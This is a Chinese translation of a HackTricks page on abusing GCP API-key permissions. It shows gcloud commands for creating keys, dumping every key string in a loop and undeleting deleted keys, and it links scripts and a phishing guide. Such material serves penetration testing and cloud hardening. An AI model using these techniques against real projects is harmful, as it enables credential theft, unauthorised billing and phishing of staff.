 # GCP - Apikeys 权限提升

<details>

<summary><strong>从零到英雄学习AWS黑客技术，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## Apikeys

以下权限对于创建和窃取API密钥很有用，请注意文档中的说明：_API密钥是一个简单的加密字符串，它**不涉及任何主体地标识一个应用程序**。它们对于匿名访问**公共数据**很有用，并用于将API请求与您的项目关联，以便进行配额和**计费**。_

因此，使用API密钥，您可以使公司为您使用API付费，但您将无法提升权限。

有关API密钥的更多信息，请查看：

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

### 暴力破解API密钥访问 <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

由于您可能不知道项目中启用了哪些API或者对您找到的API密钥应用了哪些限制，运行工具 [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) 并检查**您可以使用API密钥访问什么**会很有趣。

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

此权限允许**创建一个API密钥**：
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
您可以在此处找到一个脚本，用于自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh)。

{% hint style="danger" %}
请注意，默认情况下，用户有权限创建新项目，并且会被授予新项目的所有者角色。因此，用户可以**在这个项目中创建一个项目和一个API密钥**。
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

这些权限允许**列出和获取所有的apiKeys以及获取密钥**：
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
你可以在[**这里**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh)找到一个脚本，用于自动化**创建、利用和清理一个漏洞环境**。

### `apikeys.keys.undelete`，`apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

这些权限允许你**列出和重新生成已删除的api密钥**。在完成**undelete**操作后，**API密钥将在输出中给出**：
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### 创建内部 OAuth 应用程序以钓鱼其他工作人员

查看以下页面以了解如何执行此操作，尽管此操作属于服务 **`clientauthconfig`** [根据文档](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin)：

{% content-ref url="../../workspace-security/gws-google-platforms-phishing.md" %}
[gws-google-platforms-phishing.md](../../workspace-security/gws-google-platforms-phishing.md)
{% endcontent-ref %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习 AWS 黑客攻击！</strong></summary>

其他支持 HackTricks 的方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
